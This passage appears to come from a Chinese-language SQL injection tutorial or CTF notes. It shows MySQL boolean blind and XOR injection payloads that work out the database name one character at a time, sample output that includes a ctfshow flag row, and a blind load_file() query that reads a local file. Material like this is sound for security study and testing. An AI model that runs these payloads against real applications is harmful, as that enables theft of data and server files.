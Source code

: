 ```mysql
select * from users where id='1' and LEFT(database(),2)>'ac'-- 
```

```mysql
select * from users where id='1' and ASCII(substr(database(),1,1))=98-- 
```

也可以用字符的十六进制代替字符串

```mysql
select * from users where id=1 and 0x73=(select(mid(database() from 1 for 1)))
```



#### 4.1.3 布尔/算数运算符号总结

and	&&

or		||

xor	^

not	!

`+`、`-`、`*`、`/`

异或注入的语句如下，当

```mysql
mysql> select * from test where id='1'^(mid(database(),1,1)='a')^1;
Empty set (0.00 sec)
```

```mysql
mysql> select * from test where id='1'^(mid(database(),1,1)='b')^1;
+----+----------+--------------------------+
| Id | username | passwd                 |
+----+----------+--------------------------+
|  1 | admin    | ctfshow{123333333333333} |
+----+----------+--------------------------+
1 row in set (0.00 sec)
```





### 4.2 SQL读写文件

#### 4.2.1 读取文件

关键函数：`load_file()`

**（1）盲注逐字符读取文件**

```mysql
select * from test where id=1 and substr((select load_file('D:\\test.txt')),1,1)='t'
```



**（2）报错注入扫描文件是否存在**
